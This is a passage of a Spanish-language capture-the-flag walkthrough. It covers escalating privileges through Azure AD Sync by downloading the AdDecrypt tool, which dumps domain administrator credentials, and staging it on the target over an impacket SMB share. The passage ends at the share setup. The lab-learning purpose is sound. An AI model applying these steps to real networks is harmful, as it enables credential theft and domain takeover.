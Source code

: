```bash
d-r---         1/2/2020   2:46 PM                Windows Defender
d-----         1/2/2020   2:46 PM                Windows Defender Advanced Threat Protection
d-----        9/15/2018  12:19 AM                Windows Mail
d-----         1/2/2020   2:46 PM                Windows Media Player
d-----        9/15/2018  12:19 AM                Windows Multimedia Platform
d-----        9/15/2018  12:28 AM                windows nt
d-----         1/2/2020   2:46 PM                Windows Photo Viewer
d-----        9/15/2018  12:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----         1/3/2020   5:28 AM                WindowsPowerShell
```

Curiosamente vemos uno de nombre `Microsoft Azure AD Sync`, y si investigamos un poco, encontramos un exploit de escalada de privilegios, que lo que hace concretamente es dumpear las credenciales del administrador del dominio.


Te dejo aqui el articulo para que veas mas al respecto:

* [https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)


Lo que tenemos que hacer primero es descargarnos el `AdDecrypt.zip` del repositorio de `github`.

* [https://github.com/VbScrub/AdSyncDecrypt/releases](https://github.com/VbScrub/AdSyncDecrypt/releases)

Lo descomprimimos y dentro vamos a tener dos archivos los cuales tenemos que subir a la maquina victima.

```bash
❯ ls
 AdDecrypt.zip   azure.xml   credentials.txt   users.txt
❯ unzip AdDecrypt.zip
Archive:  AdDecrypt.zip
  inflating: AdDecrypt.exe           
  inflating: mcrypt.dll              
❯ ls
 AdDecrypt.exe   AdDecrypt.zip   azure.xml   credentials.txt   mcrypt.dll   users.txt
```

Nos creamos un directorio y subimos los archivos, lo que yo hare es que con `smbserver` crearme un recurso compartido para subirlos, pero puedes hacerlo como quieras.

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
